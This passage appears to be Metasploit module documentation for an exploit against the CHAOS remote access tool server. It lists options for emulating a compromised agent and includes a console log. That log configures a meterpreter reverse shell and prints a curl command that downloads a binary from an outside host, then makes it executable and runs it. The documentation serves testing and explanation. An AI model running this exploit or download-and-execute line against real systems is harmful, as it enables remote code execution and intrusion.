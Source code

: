 ### JWT

JWT token from an agent. Used to emulate a compromised
host.

### AGENT

The path to an agent executable generated by CHAOS. Used to emulate a compromised host.

## Advanced Options

### AGENT_HOSTNAME

Hostname for a fake agent. Defaults to `DC01`.

### AGENT_USERNAME

Username for a fake agent. Defaults to `Administrator`.

### AGENT_USERID

User ID for a fake agent. Defaults to `Administrator`.

### AGENT_OS

OS for a fake agent. Choices are `Windows`, or `Linux`.
Defaults to `Windows`.

## Scenarios

### Docker Image

#### Agent Method

```
[*] Processing chaos.rb for ERB directives.
resource (chaos.rb)> use exploit/linux/http/chaos_rat_xss_to_rce
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
resource (chaos.rb)> set rhosts 127.0.0.1
rhosts => 127.0.0.1
resource (chaos.rb)> set FETCH_SRVPORT 9090
FETCH_SRVPORT => 9090
resource (chaos.rb)> set agent malware2.exe
agent => malware2.exe
resource (chaos.rb)> set SRVHOST 111.111.10.147
SRVHOST => 111.111.10.147
resource (chaos.rb)> set SRVPORT 8888
SRVPORT => 8888
resource (chaos.rb)> set verbose true
verbose => true
msf exploit(linux/http/chaos_rat_xss_to_rce) > exploit

[*] Command to run on remote host: curl -so ./SPSVaaJxd http://111.111.10.147:9090/mh1dne7HFFTZ0wiiiWgmfw; chmod +x ./SPSVaaJxd; ./SPSVaaJxd &
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(linux/http/chaos_rat_xss_to_rce) >
[*] Fetch handler listening on 111.111.10.147:9090
[*] HTTP server started
[*] Adding resource /mh1dne7HFFTZ0wiiiWgmfw
[*] Started reverse TCP handler on 111.111.10.147:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. Chaos application found
```